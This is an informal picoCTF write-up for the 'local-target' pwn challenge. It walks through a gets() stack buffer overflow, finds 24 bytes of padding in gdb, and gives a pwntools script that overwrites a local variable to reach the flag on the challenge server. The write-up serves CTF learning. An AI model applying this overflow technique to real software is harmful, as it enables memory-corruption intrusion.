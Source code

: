 ## Write UP PicoCTF Challenge 📖 
# local-target
hi!, i will give you write up from picoCTF PWN challenge "Local-Target"
![Source Code](./img/1.png)
# solve
from SC we can see that the program is asking for input, and  using gets(). We know gets() its not a secure cuz You can input more characters than the limit. We see the local variabel num is 64. The idea from this chall is, you should to overwrite the num variabel with integer 65 and you got the flag. Now let's debug using gdb, i using pwndbg, one of the extension from gdb. 
![Anylisis GDB](img/2.png)
from dynamic anylisis i suggest value of num saved in `rbp-0x8`. after the mov let's see whats the fill of `rbp-0x8`. 
![Anylisis 2](img/3.png)
let's see, my suggest correct, the fill is `rbp-0x8` is `0x0000000000000040` in decimal is 40. next let's search padding before change the variabel, i try to input `AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLL` for see whats wrong in the register `rbp-0x8`.
![gets](img/1.png)
from image we know, program always ask the user input after gets() function, so for next try, breakpoint at gets(), it's save your time.
![input](img/5.png)
Let's see after input, check the register `rbp-0x8` , and see the value turn out to change `0x4848484847474747` this value is little endian, in char, `0x47` is `G` and `0x48` is `H` , so we know the padding until  `FFFF`, so the padding is 24. After know padding you only need to write the value you want to overwrite, overwite the value using `0x0000000000000041`.
# make script to solve
```
    #!/usr/bin/env python3
    from pwn import *
    io = remote('saturn.picoctf.net', 59384) #it if you remote target
    #io = process('./local-target') #local target
    print('[*] solver by Lanz')
    #create payload
    payload = b'A' * 24 #padding
    payload += p64(0x0000000000000041) #variabel overwrite
    io.recvuntil(b':') #this read a string until :
    io.sendline(payload) #this sendline your payload

    io.interactive()
        
```

# let's TRY (you should believe you solver is solved the challenge, and learn about dynamic anylisis mwhehehe)
![solver](img/6.png)
let's see it's work, it's not the correct flag, so find the correct flag hehe, i just give you how to solve :P.

# Quotes

~pwn is art code, if you just can solve the chall from find the write up for the correct flag, your is stupid hehe.
